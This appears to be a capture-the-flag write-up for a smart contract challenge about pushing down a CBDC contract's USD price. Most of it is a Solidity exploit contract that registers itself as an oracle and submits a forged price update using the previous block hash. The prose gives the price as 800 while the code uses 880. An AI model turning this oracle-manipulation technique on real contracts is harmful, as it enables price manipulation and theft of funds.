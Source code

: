 # Requirements

- We need to reduce the USD price.

# Attack explanation

We need to call updatePrice() function setting USD to 800. To do that, we need to do it with another contract so we can calculate block values successfully. But first, we need to add it as an oracle too.

´´´

    contract PriceUpdater {

        address cbdc = 0x094251c982cb00B1b1E1707D61553E304289D4D8;
        function updatePrice() public {
            cbdc.call(abi.encodeWithSignature("addOracle(string)", "bank"));
            uint256 blockNumber = block.number - 1;
            bytes32 blockHash = blockhash(blockNumber);
            cbdc.call(abi.encodeWithSignature("updatePrice(bytes32,uint256)", blockHash, 880));
        }
    }

´´´
